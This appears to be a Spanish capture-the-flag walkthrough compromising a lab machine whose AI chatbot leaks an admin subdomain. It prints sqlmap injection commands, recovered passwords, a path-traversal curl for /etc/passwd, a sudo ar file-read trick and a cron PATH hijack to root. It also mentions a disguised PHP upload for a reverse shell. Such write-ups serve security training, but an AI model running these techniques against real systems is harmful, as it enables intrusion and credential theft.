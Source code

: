 Hacemos un escaneo de puertos con nmap:
![[Pasted image 20241008090850.png]]
En el puerto 80 vemos un chat, que tiene una especie de servicio de IA corriendo que tiene como titulo securitron.thl:
![[Pasted image 20241008090911.png]]
Si le pedimos que nos encuentre un subdominio de esta web, tenemos el siguiente `admin19-32.securitron.htl`:
![[Pasted image 20241008091651.png]]
Lo añadimos en el /etc/hosts:
![[Pasted image 20241008091825.png]]
Accedemos a dicho dominio desde el navegador:
![[Pasted image 20241007103213.png]]
Vamos a la parte de admin dashboard y vemos un panel de login:
![[Pasted image 20241008091857.png]]
Atacaremos dicho panel con sqlmap:
```bash
sqlmap -u 'http://admin19-32.securitron.thl/Admin/login.php' --dbs --batch --forms
```
![[Pasted image 20241007103423.png]]
Y vemos las siguientes bases de datos:
![[Pasted image 20241007103418.png]]
Hacemos el proceso de dumpeo de la base de datos con sqlmap:
```bash
admin:Ntpqc6Z7MDkG
```
![[Pasted image 20241007103448.png]]
Accedemos a la web con estas credenciales:
![[Pasted image 20241008092014.png]]
Y si vamos a la parte de dashboard, vemos que podemos subir una imagen y dicha imagen se pondrá en nuestro perfil:
![[Pasted image 20241007103547.png]]
Pero si lo intentamos subir vemos que no nos deja, por lo que tendremos que cambiar el content-type para hacer creer al servidor que va a recibir una imagen y no un archivo en php:
![[Pasted image 20241007103626.png]]
Nos ponemos en escucha con netcat y recibimos la conexión:
![[Pasted image 20241008092337.png]]
Una vez dentro, vamos a enumerar qué puertos están en funcionamiento, tanto los que escuchan como los que transmiten, y vemos el puerto 3000 que no conocemos:
```bash
ss -ano | grep tcp
```
![[Pasted image 20241008114310.png]]
Por lo que visualizamos el archivo de configuración del sitio para ver qué es exactamente este puerto:
```bash
/etc/apache2/sites-available/000-default.conf
```
Y vemos el chat en sí:
![[Pasted image 20241008114411.png]]
Entonces con el comando `ps aux | grep node` podremos ver cual es el archivo de backend de javascript que ejecuta este servicio; y lo encontramos:
```bash
ps aux | grep node
```
![[Pasted image 20241008114537.png]]
Visualizamos dicho archivo:
```bash
cat /home/securitybot/.local/bin/bot/index.js
```
Donde vemos una api-key:
```bash
imagine-no-heaven-no-countries-no-possessions
```
![[Pasted image 20241008115257.png]]



Pasando la api key y una ruta, podremos hacer uso del endpoint filename para leer el passwd:
```bash
curl -H "x-api-key: imagine-no-heaven-no-countries-no-possessions" http://localhost:3000/api/models/..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```
![[Pasted image 20241008115813.png]]
Ahora intentamos leer el archivo user.txt:
```bash
curl -H "x-api-key: imagine-no-heaven-no-countries-no-possessions" http://localhost:3000/api/models/..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fsecuritybot%2Fuser.txt
```
Donde obtenemos una contraseña del usuario securitybot:
```bash
securitybot:0KjcFEkuUEXG
```
![[Pasted image 20241008115953.png]]
Una vez siendo el usuario securitybot, podemos ver que como root podemos ejecutar el comando ar:
![[Pasted image 20241008120059.png]]
Seguimos las instrucciones de gtfobins:
![[Pasted image 20241008120324.png]]
Y obtenemos lo siguiente:
![[Pasted image 20241008120341.png]]
Intentamos leer otros ficheros y encontramos algo muy interesante en el fichero de crontab del usuario root:
```bash
TF=$(mktemp -u) && sudo /usr/bin/ar r "$TF" "/var/spool/cron/crontabs/root" && cat "$TF"
```
Donde vemos que root ejecuta una tarea automática, que es la ejecución de un script pero le añade el comando date:
![[Pasted image 20241008120648.png]]
Pero tenemos que fijarnos en el path del crontab, donde vemos que pasa por `PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/home/securitybot/.local/bin:/usr/bin:/sbin:/bin` y por tanto dentro de securitybot/.local/bin podemos crearnos un date malicioso y así root cuando ejecute su tarea automática, pasará primero por el archivo date:
![[Pasted image 20241008121023.png]]
Lo guardamos y al rato veremos que la bash ya puede ser ejecutada como root gracias a que se le activó el bit SUID:
![[Pasted image 20241008121209.png]]
